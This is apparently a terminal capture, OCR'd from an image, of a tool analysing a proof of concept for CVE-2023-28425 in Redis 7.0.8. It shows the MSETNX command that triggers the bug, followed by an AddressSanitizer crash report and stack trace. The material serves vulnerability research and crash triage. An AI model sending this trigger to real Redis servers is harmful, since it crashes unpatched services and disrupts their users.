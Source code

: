 ./r2f analyze CVE-2023-28425-poc
[*] waiting redi startup...
[*] Redi /usr/local/redis/src/redis-server StartUp.
line 4 trigger bug
MSETNX "" v�� "" -0.0
=================================================================
==172996==ERROR: AddressSanitizer: unknown-crash on address 0x0000800f7000 at pc 0x7f4e8a5c8956 bp 0x7fffd02130e0 sp 0x7fffd02128a0
READ of size 1048576 at 0x0000800f7000 thread T0
    #0 0x7f4e8a5c8955 in memcpy ../../../../src/libsanitizer/sanitizer_common/sanitizer_common_interceptors_memintrinsics.inc:115
    #1 0x555741d27460 in memtest_preserving_test /opt/redis-7.0.8/src/memtest.c:317
    #2 0x555741cddd08 in memtest_test_linux_anonymous_maps /opt/redis-7.0.8/src/debug.c:1863
    #3 0x555741cde08a in doFastMemoryTest /opt/redis-7.0.8/src/debug.c:1904
    #4 0x555741cde95f in printCrashReport /opt/redis-7.0.8/src/debug.c:2047
    #5 0x555741cde95f in _serverAssert /opt/redis-7.0.8/src/debug.c:1015
    #6 0x555741c31b63 in dbAdd /opt/redis-7.0.8/src/db.c:191
    #7 0x555741c36ba8 in setKey /opt/redis-7.0.8/src/db.c:270
    #8 0x555741c74564 in msetGenericCommand /opt/redis-7.0.8/src/t_string.c:585
    #9 0x555741bd3b51 in call /opt/redis-7.0.8/src/server.c:3374
    #10 0x555741bd87fc in processCommand /opt/redis-7.0.8/src/server.c:4008
    #11 0x555741c16313 in processCommandAndResetClient /opt/redis-7.0.8/src/networking.c:2469
    #12 0x555741c16313 in processInputBuffer /opt/redis-7.0.8/src/networking.c:2573
    #13 0x555741c1e86f in readQueryFromClient /opt/redis-7.0.8/src/networking.c:2709
    #14 0x555741dfb294 in callHandler /opt/redis-7.0.8/src/connhelpers.h:79
    #15 0x555741dfb294 in connSocketEventHandler /opt/redis-7.0.8/src/connection.c:310
    #16 0x555741bbccb9 in aeProcessEvents /opt/redis-7.0.8/src/ae.c:436
    #17 0x555741bbf24c in aeProcessEvents /opt/redis-7.0.8/src/ae.c:362
    #18 0x555741bbf24c in aeMain /opt/redis-7.0.8/src/ae.c:496
    #19 0x555741bb10ac in main /opt/redis-7.0.8/src/server.c:7156
    #20 0x7f4e8a236c89 in __libc_start_call_main ../sysdeps/nptl/libc_start_call_main.h:58
    #21 0x7f4e8a236d44 in __libc_start_main_impl ../csu/libc-start.c:360
    #22 0x555741bb2b70 in _start (/opt/redis-7.0.8/src/redis-server+0x10eb70) (BuildId: bae57496e088c12a62191271c8ba8cbf422ffc71)

Address 0x0000800f7000 is located in the low shadow area.
SUMMARY: AddressSanitizer: unknown-crash ../../../../src/libsanitizer/sanitizer_common/sanitizer_common_interceptors_memintrinsics.inc:115 in memcpy
==172996==ABORTING
